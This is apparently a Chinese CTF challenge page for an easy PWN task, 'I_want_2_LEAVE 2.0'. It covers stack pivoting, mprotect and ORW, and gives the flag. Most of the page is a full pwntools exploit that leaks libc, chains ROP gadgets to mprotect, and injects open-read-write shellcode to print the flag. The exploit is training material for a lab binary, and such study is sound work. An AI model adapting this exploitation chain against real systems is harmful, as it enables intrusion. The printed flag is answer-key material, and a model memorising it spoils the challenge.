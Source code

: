 - **题目名称：** I_want_2_LEAVE 2.0
- **题目类型：** PWN  
- **题目难度：** 简单（有初赛1.0版本，所以降低难度了）
- **出题人：** i-Corner
- **考点：**

1. 栈迁移
1. mprotect
1. orw

- **描述：** PWN就是逊啦，又双叒叕想跑路了
- **flag：** XSCTF{7bd8caa6-8b04-e7ae-19f8-885567def3b5}
- **Writeup：**

```python
#测试请在Ubuntu18环境下

from pwn import *
context(log_level='DEBUG',arch='amd64')
p = process("./shell")
#p = remote("0.0.0.0",10001)
e = ELF("./shell")
libc = ELF("./libc-2.27.so")
p.timeout = 0.5
ret = 0x400536
rdi = 0x400863
rsi = 0x23a6a
rdx = 0x1b96
bss= 0x601010 + 0x300
leave_ret = 0x4007FB
main_addr = 0x40075d
p.recvuntil(b"soft! try me :)\n")
pl1 = b'a'*(0x20) + p64(0) + p64(rdi) + p64(e.got['puts']) + p64(e.plt['puts']) + p64(main_addr)
p.send(pl1)
base = u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00')) - libc.sym['puts']
success("base:" +hex(base))
p.recvuntil(b"soft! try me :)\n")
pl2 = b'a'*(0x20) + p64(0) + p64(rdi) + p64(0x600000)+ p64(base+rsi)+ p64(0x2000)+ p64(base+rdx) + p64(7) + p64(base+libc.sym['mprotect']) + p64(main_addr)

p.send(pl2)
pl3 = b'a'*(0x28)+ p64(rdi) + p64(0) + p64(base+rsi) + p64(0x600000+0x500) + p64(base+rdx) + p64(0x100) + p64(e.plt['read']) + p64(0x600000+0x500)
p.recvuntil(b"soft! try me :)\n")
mmap=0x600000
orw_payload=shellcraft.open('./flag')           
orw_payload+=shellcraft.read(3,mmap,0x50)       
orw_payload+=shellcraft.write(1,mmap,0x50)      


p.send(pl3)
sleep(0.2)

p.send(asm(orw_payload))

p.interactive()

```
